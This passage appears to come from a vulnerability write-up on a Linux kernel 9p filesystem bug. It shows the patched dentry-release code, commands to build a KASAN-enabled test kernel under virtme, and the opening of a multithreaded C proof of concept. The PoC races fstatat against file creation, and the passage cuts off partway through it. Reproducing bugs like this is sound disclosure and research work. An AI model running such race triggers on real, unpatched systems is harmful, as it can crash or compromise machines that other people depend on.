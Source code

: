 fix:
[/fs/9p/vfs_dentry.c](https://github.com/torvalds/linux/commit/c898afdc15645efb555acb6d85b484eb40a45409)
{% highlight cpp %}

static void v9fs_dentry_release(struct dentry *dentry)
{
	struct hlist_node *p, *n;
	struct hlist_head head;

	p9_debug(P9_DEBUG_VFS, " dentry: %pd (%p)\n",
		 dentry, dentry);

	spin_lock(&dentry->d_lock);
	hlist_move_list((struct hlist_head *)&dentry->d_fsdata, &head);
	spin_unlock(&dentry->d_lock);

	hlist_for_each_safe(p, n, &head)
		p9_fid_put(hlist_entry(p, struct p9_fid, dlist));
}
{% endhighlight %}


to run the poc first build the kernel and run it via virtio

{% highlight shell %}
git clone --depth 1 https://github.com/torvalds/linux.git
git clone --depth 1 https://github.com/amluto/virtme.git
cd linux
../virtme/virtme-configkernel  --defconfig
/scripts/config -e KASAN -e KASAN_INLINE -e WARNING
make 
../virtme/virtme-run --kimg arch/x86/boot/bzImage --rwdir ../testfuzz/ --qemu-opts  -m 2G -smp 2 -enable-kvm
{% endhighlight %}


then inside the shell run the following code.
poc:
{% highlight cpp %}
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <unistd.h>
#include <pthread.h>
#include <string.h>
#include <stdlib.h>
#include <errno.h>

typedef struct
{
    int dirfd;
    const char *filePath;
} ThreadArgs;

void *statThread(void *arg)
{
    ThreadArgs *args = (ThreadArgs *)arg;
    struct stat buf;
    int retval;
    FILE *outFile;

    while (1) {
        if (access(args->filePath, F_OK) != -1) {
            retval = fstatat(args->dirfd, args->filePath, &buf, 0);
        }
        else {
            outFile = fopen(args->filePath, "w");
            if (outFile) {